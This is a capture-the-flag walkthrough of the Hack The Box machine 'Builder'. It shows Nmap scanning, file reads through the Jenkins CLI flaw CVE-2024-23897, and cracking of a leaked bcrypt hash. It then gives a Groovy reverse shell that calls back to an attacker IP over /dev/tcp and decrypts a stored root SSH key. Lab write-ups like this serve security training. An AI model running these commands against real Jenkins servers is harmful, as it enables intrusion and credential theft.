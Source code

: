 # HTB - Builder

#### Ip: 10.129.230.220
#### Name: Builder
#### Rating: Medium

----------------------------------------------------------------------

Builder.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

Nmap:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 10.129.230.220 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-08-05 07:24 CDT
Nmap scan report for 10.129.230.220
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-server-header: Jetty(10.0.18)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.39 seconds
```

Looking at the Jetty site on port 8080 we find a Jenkins 2.441 instance running:

htb_builder_site.png

Navigating to http://10.129.230.220:8080/asynchPeople/ we also find user Jennifer (as well as our anonymous session):

htb_builder_people.png

Clicking into the Credentials tab we see that user root may have SSH enabled:

htb_builder_credentials.png

Looking for Jenkins exploits I find `CVE-2024-23897(Arbitrary File Read Vulnerability) Jenkins 2.441 and earlier`

Reading up on how to exploit this first we'll need to grab the jenkins-cli.jar file:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ wget http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar

--2024-08-05 07:37:36--  http://10.129.230.220:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.129.230.220:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar                 100%[====================================================>]   3.46M  4.30MB/s    in 0.8s    

2024-08-05 07:37:36 (4.30 MB/s) - ‘jenkins-cli.jar’ saved [3623400/3623400]
```

We can then execute:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/etc/passwd'
```

Which gives us the contents of `/etc/passwd`:

htb_builder_passwd.png

### Foothold

Lets find the Jenkins home path by viewing `/proc/self/environ`

htb_builder_home.png

We can now confirm that user jennifer exists by viewing `/var/jenkins_home/users/users.xml`

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/var/jenkins_home/users/users.xml'
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>"
<SNIP>
```

Now that we have jennifer's username string `jennifer_12108429903186576833` We can query:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ java -jar jenkins-cli.jar -s http://10.129.230.220:8080/ connect-node @'/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
```

Which gives us a bcyrpt hash:

```
<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

Lets crack this in john:

htb_builder_john.png

We can now login as jennifer:

htb_builder_in.png

We can now navigate to the `/script` directory and issue a reverse shell using Groovy:

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.107/443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

htb_builder_script.png

We then catch a shell back as jenkins:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ nc -lnvp 443             
listening on [any] 443 ...
connect to [10.10.14.107] from (UNKNOWN) [10.129.230.220] 55854
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
whoami
jenkins
hostname
0f52c222a4cc
python3 -c 'import pty;pty.spawn("/bin/bash")'

/bin/bash: line 1: python3: command not found
python -c 'import pty;pty.spawn("/bin/bash")'

/bin/bash: line 1: python: command not found
/usr/bin/script -qc /bin/bash /dev/null
jenkins@0f52c222a4cc:/$
```

Because the hostname is 0f52c222a4cc, we can likely assume we are inside of a docker container.

We can now grab the user.txt flag in `/var/jenkins_home`

htb_builder_user_flag.png

### Privilege Escalation

Looking at `/var/jenkins_home/credentials.xml` we find an encrypted key:

htb_builder_enc_key.png

And it appears to be the SSH key for root:

```
<scope>GLOBAL</scope>
<id>1</id>
<description></description>
<username>root</username>
<usernameSecret>false</usernameSecret>
```

We can decrypt this back in the Groovy Console with:

```
println(hudson.util.Secret.decrypt("{AQAAAB.....<SNIP>}"))
```

htb_builder_groovy2.png

We can then use this key to SSH in as root:

```
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Builder]
└─$ ssh -i id_rsa root@10.129.230.220   
The authenticity of host '10.129.230.220 (10.129.230.220)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:161: [hashed name]
    ~/.ssh/known_hosts:164: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.230.220' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

<SNIP>

Last login: Mon Feb 12 13:15:44 2024 from 10.10.14.40
root@builder:~# whoami
root
root@builder:~# hostname
builder
```

We can now grab the root.txt flag:

htb_builder_root_flag.png

Thanks for following along!

-Ryan

---------------------------------------------